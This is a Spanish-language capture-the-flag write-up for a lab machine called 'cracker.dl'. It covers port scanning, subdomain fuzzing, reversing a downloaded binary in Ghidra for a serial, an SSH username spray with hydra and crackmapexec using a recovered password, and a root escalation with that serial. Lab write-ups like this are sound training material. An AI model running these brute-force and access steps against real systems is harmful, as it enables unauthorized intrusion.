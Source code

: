 ### Enumeracion de Puertos, Servisios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 2000 172.17.0.2 -oN nmap
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-28 22:54 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 20:c2:39:55:4e:1e:5f:4e:1d:e7:f1:17:39:1a:4e:7a (ECDSA)
|_  256 a5:b5:c0:f2:ce:3e:1a:e4:eb:f8:c3:dd:b5:c6:f3:b3 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: P\xC3\xA1gina Web Profesional
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.45 seconds
```

observo un servicio web y ssh, asi que chequeo el servicio web

![image](https://github.com/user-attachments/assets/26b4c37c-9a19-46ce-9ce3-8490f086a248)

![image](https://github.com/user-attachments/assets/76be943c-e967-4a21-af52-12e50ea922fe)


observo por aca lo que podria ser un dominio, asi que lo agrego al archivo `/etc/hosts`

```ruby
echo '172.17.0.2  cracker.dl' >> /etc/hosts
```
ahora si accedo al dominio observo otro sitio web

![image](https://github.com/user-attachments/assets/ebaede91-d86e-4792-bb9e-27a094375245)

esta web parece que aun esta en construccion ya que nada funciona, asi que hare fuzzing a ver si consigo algo

![image](https://github.com/user-attachments/assets/e7acff2f-cb44-4d50-9483-35450783c6ff)

no veo nada asi que tirare de subdominios a ver

![image](https://github.com/user-attachments/assets/43a97337-cd32-4bce-9a10-6b5186e65ab6)

pruebo `japan` ya que es el unico con codigo de estado `200`; no sin antes agregarlo en `/etc/hosts`

asi nos quedaria en `/etc/hosts`
```
172.17.0.2  cracker.dl japan.cracker.dl
```

![image](https://github.com/user-attachments/assets/0b5a6008-848a-40b4-9153-f179907ce885)

veo que puedo descargar un `SOFTWARE` asi que lo descargo

![image](https://github.com/user-attachments/assets/3928d07e-fd06-44e2-bb06-4653f805994e)

le doy permisos de ejecucion

```ruby
chmod +x PanelAdmin
```
ejecuto el binario y observo lo siguiente

![image](https://github.com/user-attachments/assets/b36af7f8-3aac-4115-b429-14907ea9f321)

solicita un serial para el acceso asi que vere que saco de hacerle `reversing al binario` asi que ejecuto `ghidra`

![image](https://github.com/user-attachments/assets/7b0c8969-fd0d-40ed-83f6-60f03c95b12b)

![image](https://github.com/user-attachments/assets/103c2c04-aac4-421e-8ca4-d2c82b563a7b)

ya en este punto comienzo examinar el codigo decompilado y las funciones encontrando el serial 

![image](https://github.com/user-attachments/assets/0b092d34-5359-431c-a12d-88d1a27942c5)

asi que vuelvo ejecutar el binario y le paso el serial

![image](https://github.com/user-attachments/assets/037ca74f-0082-4d87-ba28-f127a7ee9c4e)

![image](https://github.com/user-attachments/assets/8f7f9285-1bfd-45f1-9192-087329cd5fc4)

![image](https://github.com/user-attachments/assets/79d08d3f-4215-4e26-86bd-93eb8ecf5dfc)

obtengo entonces la contrasena, sin embago no tengo un user con el cual loguearme via `ssh` por lo que aplicare un ataque de diccionario contra el servicio

```ruby
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p '#P@$$w0rd!%#S€c7T' ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/5eed46ce-e437-4393-956e-b2b8e633900d)

lo que observo son errores por alguna razon, asi que usare `crackmapexec`

```ruby
crackmapexec ssh 172.17.0.2 -u /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p '#P@$$w0rd!%#S€c7T' |grep -v 'Authentication failed.'
```

![image](https://github.com/user-attachments/assets/52b2dbbc-cdfd-4e26-9ea1-2c3fd920ca68)

accedo via `ssh`

### Escalada de Privilegios

### cracker

aqui enumere todo el sistema, busque en el ultimo archivo y no daba con nada hasta que probe el serial del binario como password y logre escalar!

```ruby
su
pass: 47378-10239-84236-54367-83291-78354
```

![image](https://github.com/user-attachments/assets/59702908-a3a0-4c5a-b28a-2b12aedd4578)


### PWNED - ROOT








